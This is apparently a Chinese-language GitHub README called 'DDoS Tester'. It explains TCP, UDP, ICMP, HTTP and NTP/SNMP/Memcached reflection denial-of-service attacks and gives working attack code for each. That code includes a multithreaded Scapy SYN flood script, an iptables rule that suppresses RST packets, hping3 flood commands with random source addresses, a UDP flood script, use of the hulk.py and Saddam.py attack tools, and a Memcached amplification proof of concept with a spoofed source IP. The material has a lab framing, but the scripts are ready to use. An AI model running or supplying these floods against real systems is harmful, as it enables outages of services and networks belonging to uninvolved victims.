

# DDoS Tester

> Various kinds of DDoS attack implemented
>
> Distributed Denial of Service 分布式拒绝服务攻击
>
> Distributed Reflection Denial of Service 分布式反射拒绝服务攻击

[TOC]

## TCP Flood

### 原理

#### TCP标记

基于标记的TCP包匹配经常被用于过滤试图打开新连接的TCP数据包。

TCP标记和他们的意义如下所列：

- F : FIN - 结束; 结束会话
- S : SYN - 同步; 表示开始会话请求
- R : RST - 复位;中断一个连接
- P : PUSH - 推送; 数据包立即发送
- A : ACK - 应答
- U : URG - 紧急
- E : ECE - 显式拥塞提醒回应
- W : CWR - 拥塞窗口减少

#### 三次握手过程

一个虚拟连接的建立是通过三次握手来实现的：

- 假如有服务器A、客户机B. 当B要和A通信时，B首先向A发一个SYN (Synchronize) 标记的包，告诉A请求建立连接。一个 SYN包就是仅SYN标记设为1的TCP包。 只有当A收到B发来的SYN包，才可建立连接。

- 接着，A收到后会发一个对SYN包的确认包(SYN/ACK)回去，表示对第一个SYN包的确认，并继续握手操作。SYN/ACK包是仅SYN 和 ACK 标记为1的包。

- B收到SYN/ACK 包,B发一个确认包(ACK)，通知A连接已建立。至此，三次握手完成，一个TCP连接完成。ACK包就是仅ACK 标记设为1的TCP包。

需要注意的是当三此握手完成、连接建立以后，TCP连接的每个包都会设置ACK位。

#### 四次握手过程

四次握手用来关闭已建立的TCP连接：

- (B) --> ACK/FIN --> (A)

- (B) <-- ACK <-- (A)
- (B) <-- ACK/FIN <-- (A)
- (B) --> ACK --> (A)

由于TCP连接是双向连接，因此关闭连接需要在两个方向上做。ACK/FIN 包(ACK 和FIN 标记设为1)通常被认为是FIN(终结)包。然而，由于连接还没有关闭，FIN包总是打上ACK标记。没有ACK标记而仅有FIN标记的包不是合法的包，并且通常被认为是恶意的。

#### 连接复位

四次握手不是关闭TCP连接的唯一方法。 有时，如果主机需要尽快关闭连接(或连接超时,端口或主机不可达)，RST (Reset)包将被发送。由于RST包不是TCP连接中的必须部分，可以只发送RST包(即不带ACK标记)。但在正常的TCP连接中RST包可以带ACK确认标记。RST包是可以不要收到方确认的。

#### 无效的TCP标记

到目前为止，你已经看到了 SYN，ACK，FIN，和RST 标记。 另外，还有PSH (Push) 和URG (Urgent)标记。
最常见的非法组合是SYN/FIN 包。注意:由于 SYN包是用来初始化连接的，它不可能和 FIN和RST标记一起出现。这也是一个恶意攻击。

由于现在大多数防火墙已知 SYN/FIN 包，别的一些组合，例如SYN/FIN/PSH，SYN/FIN/RST，SYN/FIN/RST/PSH。很明显，当网络中出现这种包时，很你的网络肯定受到攻击了。

别的已知的非法包有FIN (无ACK标记)和"NULL"包。如同早先讨论的，由于ACK/FIN包的出现是为了关闭一个TCP连接，那么正常的FIN包总是带有 ACK 标记。"NULL"包就是没有任何TCP标记的包(URG,ACK,PSH,RST,SYN,FIN都为0)。

到目前为止，正常的网络活动下，TCP协议栈不可能产生带有上面提到的任何一种标记组合的TCP包。当你发现这些不正常的包时，肯定有人对你的网络不怀好意。

#### SYN Flood

当开放了一个TCP端口后，该端口就处于Listening状态，不停地监视发到该端口的Syn报文，一 旦接收到Client发来的Syn报文，就需要为该请求分配一个TCB（Transmission Control Block），通常一个TCB至少需要280个字节，在某些操作系统中TCB甚至需要1300个字节，并返回一个SYN ACK命令，立即转为SYN-RECEIVED即半开连接状态，而某些操作系统在SOCK的实现上最多可开启512个半开连接（如Linux2.4.20 内核）。

从以上过程可以看到，如果恶意的向某个服务器端口发送大量的SYN包，则可以使服务器打开大量的半开连接，分配TCB，从而消耗大量的服务器资源，同时也使得正常的连接请求无法被相应。而攻击发起方的资源消耗相比较可忽略不计。

SYN Flood主要利用了TCP协议的三次握手，建立三次握手时，客户端向服务器先发一个SYN包，服务器回复一个SYN ACK，然后客户端再发一个ACK建立三次握手，但如果客户端只向服务器发一个SYN包的话，服务器在发送SYN ACK后就会等待客户端回复，这样的连接称为半开连接，攻击者向被攻击者发送大量的SYN包，在服务器上产生大量的半开连接从而使得正常的客户端无法建立连接。

### 实验

#### TCP SYN Flood

##### 设置iptables

如果主动发送`SYN`包而不发送最后的`ACK`包，操作系统会自动发送一个`RST`包，终止连接，这样不能占用半开连接，所以在攻击前要先用`iptables`设置防火墙规则，防止系统自动发送的`RST`包，设置如下:

```shell
iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 1.1.1.1 -j DROP
```

##### 用scapy库编写测试脚本

设置好规则后就可以攻击了，这里使用`Scapy`包来写脚本，创建了`200`个线程，攻击一段时间后可以发现`127.0.0.1`的网页就会无响应了:

```python
from scapy.all import *
from time import sleep
import thread
import random

target = '127.0.0.1'
port = 80
threadnum = 200

def synflood(target, port):

    while True:
        x = random.randint(0, 65535)
        send(IP(dst = target)/TCP(dport = port, sport = x), verbose=0)

def attack(target, port):

    print "Start Attack..."
    for i in range(threadnum):
        thread.start_new_thread(synflood, (target, port))
    while True:
        sleep(1)

attack(target, port)
```

这样一般的`linux`服务器`TCP`半开连接数最大为`256`，所以很容易就会被拒绝服务，这时候用`netstat`查看，会发现有大量的`SYN-RECV`状态的连接:

```shell
tcp        0      0 192.168.1.106:80        192.168.1.105:63373     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:32889     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:11923     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:14623     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:47957     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:40096     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:16169     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:36751     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:42879     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:59742     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:64406     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:3874      SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:20588     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:24316     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:27737     SYN_RECV    -
```

##### 使用工具hping3

也可以用hping3来实现，`-S`参数可以设置SYN标记，`--flood`参数可以产生泛洪，`--rand-source`可以设置源IP随机，`-c`指定数据包的总量，`-d`指定数据的大小。

```shell
hping3 -S --flood -V -p TARGET_PORT TARGET_SITE
hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
–-flood: sent packets as fast as possible
–-rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0) 
```

#### TCP FIN Flood

用hping3来实现，`-F`可设置FIN标记。

```shell
hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP
-F stands for setting FIN flag
```

#### TCP RST Flood

用hping3来实现，`-R`可设置RST标记。

```shell
hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
-R stands for setting RST flag
```

## UDP Flood

### 原理

UDP Flood是日渐猖厥的流量型DoS攻击，原理也很简单。常见的情况是利用大量UDP小包冲击DNS服务器或Radius认证服务器、流媒体视频服务器。 100k pps的UDP Flood经常将线路上的骨干设备例如防火墙打瘫，造成整个网段的瘫痪。由于UDP协议是一种无连接的服务，在UDP Flood攻击中，攻击者可发送大量伪造源IP地址的小UDP包。但是，由于UDP协议是无连接性的，所以只要开了一个UDP的端口提供相关服务的话，那么就可针对相关的服务进行攻击。

正常应用情况下，UDP包双向流量会基本相等，而且大小和内容都是随机的，变化很大。出现UDP Flood的情况下，针对同一目标IP的UDP包在一侧大量出现，并且内容和大小都比较固定。

### 实验

用python的socket构造UDP流量，代码如下：

```python
"""
Usage : ./flood_udp <ip> <port> <second>
"""
import time
import socket
import random
import sys

def usage():
    print "Usage: " + sys.argv[0] + " <ip> <port> <second>"

def flood(victim, vport, duration):
    # okay so here I create the server, when i say "SOCK_DGRAM" it means it's a UDP type program
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    # 1024 representes one byte to the server
    bytes = random._urandom(1024)
    timeout = time.time() + duration
    sent = 0

    while 1:
        if time.time() > timeout:
            break
        else:
            pass
        client.sendto(bytes, (victim, vport))
        sent = sent + 1
        print "Attacking %s sent packages %s at the port %s "%(sent, victim, vport)

def main():
    print len(sys.argv)
    if len(sys.argv) != 4:
        usage()
    else:
        flood(sys.argv[1], int(sys.argv[2]), int(sys.argv[3]))

if __name__ == '__main__':
    main()
```

结合wireshark来查看攻击效果。

或者可以用hping3来实现：

```shell
hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
–flood: sent packets as fast as possible
–-rand-source: random source address
–udp: UDP mode
-p –destport: destination port (default 0)
```

## ICMP Flood

> Internet Control Message Protocol
>
> 网际控制报文协议

### 原理

ICMP是互联网协议族的核心协议之一。它用于TCP/IP网络中发送控制消息，提供可能发生在通信环境中的各种问题反馈，通过这些信息，使管理者可以对所发生的问题作出诊断，然后采取适当的措施解决。

ICMP依靠IP来完成它的任务，它是IP的主要部分。它与传输协议（如TCP和UDP）显著不同：它一般不用于在两点间传输数据。它通常不由网络程序直接使用，除了ping和traceroute这两个特别的例子。 IPv4中的ICMP被称作ICMPv4，IPv6中的ICMP则被称作ICMPv6。

**几种常见的ICMP报文**

- 响应请求 

ping命令，就是响应请求（Type=8）和应答（Type=0），一台主机向一个节点发送一个Type=8的ICMP报文，如果途中没有异常，则目标返回Type=0的ICMP报文，说明这台主机存在。

- 目标不可到达、源抑制和超时报文 

这三种报文的格式是一样的。 

a)目标不可到达报文（Type=3）在路由器或主机不能传递数据报时使用，例如我们要连接对方一个不存在的系统端口时，将返回Type=3、Code=3的ICMP报文。常见的不可到达类型还有网络不可到达 （Code=0）、主机不可到达（Code=1）、协议不可到达（Code=2）等。 

b)源抑制则充当一个控制流量的角色，它通知主机减少数据报流量，由于ICMP没有恢复传输的报文，所以只要停止该报文，主机就会逐渐恢复传输速率。 

c)无连接方式网络的问题就是数据报会丢失，或者长时间在网络游荡而找不到目标，或者拥塞导致主机在规定时间内无法重组数据报分段，这时就要触发ICMP超时报文的产生。超时报文的代码域有两种取值：Code=0表示传输超时，Code=1表示重组分段超时。

- 时间戳 

时间戳请求报文（Type=13）和时间戳应答报文（Type=14）用于测试两台主机之间数据报来回一次的传输时间。传输时，主机填充原始时间戳，接收方收到请求后填充接收时间戳后以Type=14的报文格式返回，发送方计算这个时间差。一些系统不响应这种报文。

### 实验

ICMP的泛洪攻击是在最小时间内发送最大的ICMP数据到目标机，例如使用ping指令。

Python的Scapy库可以构造攻击报文如下，是一个标准的ping包。

```python
packet = scapy.layers.inet.IP(dst=self.args.target_ip) / scapy.layers.inet.ICMP()
```



## HTTP Flood

### 原理

攻击者通过代理或僵尸主机向目标服务器发起大量的HTTP报文，请求涉及数据库操作的URI（Universal Resource Identifier）或其它消耗系统资源的URI，造成服务器资源耗尽，无法响应正常请求。例如门户网站经常受到的HTTP Flood攻击，攻击的最大特征就是选择消耗服务器CPU或内存资源的URI，如具有数据库操作的URI。

### 步骤

- 本地通过`php -S localhost:8000`或者`python -m SimpleHTTPServer 8000`搭建一个简单的web环境
- 使用命令`python hulk.py -site http://127.0.0.1:8000`

可以看到如图效果：


脚本会发送大量的随机HTTP请求，形成DoS。

## NTP DRDoS

### 原理

NTP 包含一个 monlist 功能，也被成为 MON_GETLIST，主要用于监控 NTP 服务器，NTP 服务器响应 monlist 后就会返回与 NTP 服务器进行过时间同步的最后 600 个客户端的 IP，响应包按照每 6 个 IP 进行分割，最多有 100 个响应包。

我们可以通过 ntpdc 命令向一个 NTP 服务器发送 monlist 以及结合抓包来看下实际的效果。

 ```
ntpdc -n -c monlist x.x.x.x | wc -l
602
 ```

### 实验

```
send(IP(dst=ntp_server, src=target)/(UDP(sport=52816)/NTP(version=2, mode=7, stratum=0, poll=3, precision=42)))
```

## SNMP DRDoS

### 原理

SNMP 是简单网络管理协议（Simple Network Management Protocol）的缩写，该协议是 目前 UDP/IP 网络中应用最为广泛的网络管理协议，它提供了一个管理框架来监控和维护互 联网设备。SNMP 协议使用 UDP 161 端口进行通信。

由于 SNMP 的效果很好，网络硬件厂商开始把 SNMP 加入到它们制造的每一台设备。 今天，各种网络设备上都可以看到默认启用的 SNMP 服务，从交换机到路由器，从防火墙 到网络打印机，无一例外。同时，许多厂商安装的 SNMP 都采用了默认的通信字符串（community string），这些通信字符串是程序获取设备信息和修改配置必不可少的。最常 见的默认通信字符串是 public 和 private，除此之外还有许多厂商私有的默认通信字符串。几 乎所有运行 SNMP 的网络设备上，都可以找到某种形式的默认通信字符串。

在 SNMPv1 中定义的 Get 请求可以尝试一次获取多个 MIB 对象，但响应消息的大小受 到设备处理能力的限制。如果设备不能返回全部请求的响应，则会返回一条错误信息。在 SNMPv2 中，添加了 GetBulk 请求，该请求会通知设备返回尽可能多的数据，这使得管理程 序能够通过发送一次请求就获得大段的检索信息。

利用默认通信字符串和 GetBulk 请求，攻击者能够开展有效的 SNMP 放大攻击。

攻击者向广泛存在并开启了 SNMP 服务的网络设备发送 GetBulk 请求，使用默认通信 字符串作为认证凭据，并将源 IP 地址伪造成被攻击目标的 IP 地址。设备收到 GetBulk 请求 后，会将响应结果发送给被攻击目标。当大量的响应结果涌向目标时，就会导致目标网络拥 堵和缓慢，造成拒绝服务攻击。

攻击者发送的 GetBulk 请求数据包约为 60 字节左右，而请求的响应数据能够达到 1500 字节以上，因此，使用该方式进行放大攻击能够达到 20 倍以上的放大效果。

### 实验

创建一个`snmp.txt`，内容为可被利用的SNMP服务器的IP列表。

本实验中，写入装有snmpd的服务器IP地址。

打开终端，执行：

```shell
sudo python Saddam.py -s snmp.txt 127.0.0.1
```

这样，SNMP服务器会将攻击流量反射放大打到目标IP上，完成攻击。

此时wireshark抓包如图：


## SSDP DRDoS

## DNS DRDoS

## Memcache DRDoS

### 原理

#### 漏洞背景

根据报告，Memcached的带宽放大因子（Bandwidth Amplification Factor）能达到10000-51000，远超过之前广泛使用的NTP协议的556.9，刷新了UDP协议反射放大DDoS攻击的新记录，测试显示15byte的请求能触发750KB的响应，即51200的放大倍数，Memcached对互联网开放的无需验证的UDP 11211端口为成为了主要利用的DDoS反射器， Memcached默认同时开放UDP和TCP 11211端口,很多服务商并未限制外部访问该UDP端口。

2018年2月28日，知名代码托管网站 GitHub 遭遇史上大规模 Memcached DDoS 攻击，流量峰值高达1.35 Tbps。然而，事情才过去五天，DDoS攻击再次刷新纪录。经证实，这起 DDoS 攻击的峰值创新高，达到1.7 Tbps，此次的受害者为美国一家服务提供商。这起攻击仍通过暴露在网上的 Memcached 服务器进行。

#### Memcache介绍

Memcached是一套分布式的高速缓存系统，由LiveJournal的Brad Fitzpatrick开发，但目前被许多网站使用。这是一套开放源代码软件，以BSD license授权发布。

memcached缺乏认证以及安全管制，这代表应该将memcached服务器放置在防火墙后。

memcached的API使用三十二比特的循环冗余校验（CRC-32）计算键值后，将数据分散在不同的机器上。当表格满了以后，接下来新增的数据会以LRU机制替换掉。由于memcached通常只是当作缓存系统使用，所以使用memcached的应用程序在写回较慢的系统时（像是后端的数据库）需要额外的代码更新memcached内的数据。

#### 反射型DDoS - DRDoS

攻击者并不直接攻击目标服务 IP，而是利用互联网的某些特殊服务开放的服务器，通过伪造被攻击者的 IP 地址、向有开放服务的服务器发送构造的请求报文，该服务器会将数倍于请求报文的回复数据发送到被攻击 IP，从而对后者间接形成 DDoS 攻击。

- 作为攻击者，需要伪造IP。发送海量伪造来源的请求。未采取BCP38的机房(firewallrules and uRPF)。
- 作为反射服务器，需要满足2个条件，第一，上面运行着容易放大的UDP协议，即使用不当或设计不当的UDP服务，能够满足特定条件下，响应包远远大于请求包。第二，该协议或服务在互联网上有一定的使用量，如DNS，NTP等基础服务。
- 受害者，由于DDoS的意图，受害者一般是金融，游戏，政治等目标，或出于破坏，炫技等目的。

#### Memcache的可利用性

1. 由于Memcache同时监听TCP和UDP，天然满足反射DDoS条件。
2. Memcache作为企业应用组建，其业务特性保证了具有较高上传带宽。
3. Memcache不需要认证即可进行交互。
4. 很多用户在编译安装时，将服务错误监听在`0.0.0.0`，且未进行iptables规则配置或云安全租户配置。

#### 攻击流程

1. 扫描全网端口服务。
2. 进行指纹识别，获取未认证的Memcache IP列表。
3. 过滤所有可以反射的UDP Memcache。
4. 插入数据状态进行反射。

### 实验

#### 实验环境

本实验中选择了Memcached 1.5.5，这个版本默认配置是存在漏洞的。

如果安装了较新版本的Memcached，也可以按如下配置来复现环境：

- 开启UDP监听 
- 不开启认证

#### nmap扫描

Memcached服务默认端口是11211，可通过Nmap网络安全扫描工具扫描端口开放情况，验证运行Memcached服务的IP是否开放UDP 11211端口：

```bash
nmap 127.0.0.1 -p 11211 -sU -sS --script memcached-info
```

#### netcat探测

可通过Netcat网络实用工具连接端口测试，验证UDP 11211端口响应服务运行状态：

```shell
echo -en "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -q1 -u 127.0.0.1 11211
STAT pid 21357
STAT uptime 41557034
STAT time 1519734962
...
```

如果看到非空有内容输出的响应（如上所示），表示Memcached服务器容易受到攻击，特别是暴露在互联网上的主机。

#### PoC

由此编写一个漏洞探测利用的python脚本如下：

```python
import socket
UDP_IP = "127.0.0.1"
UDP_PORT = 11211
MESSAGE = '\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(MESSAGE, (UDP_IP, UDP_PORT))
data, addr = sock.recvfrom(1024)
sock.close()
if len(data) > len(MESSAGE): # vulnerable
    try:
        from scapy.layers.inet import IP, UDP
        from scapy.sendrecv import send
        TARGET_IP = "23.23.23.23"
        TARGET_PORT = 65534
        ip = IP(src=TARGET_IP, dst=UDP_IP)
        udp = UDP(sport=TARGET_PORT, dport=UDP_PORT)
        req = '\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'
        pck = ip/udp/req
        for i in range(50):
            send(pck)
    except Exception as e:
        print e
        exit()
```

脚本运行时用tcpdump+wireshark抓包，如图：


可以看到这里的源ip是脚本中伪造的23.23.23.23，从而将放大后的流量通过Memcached服务器反射到目标ip上，实现DRDoS。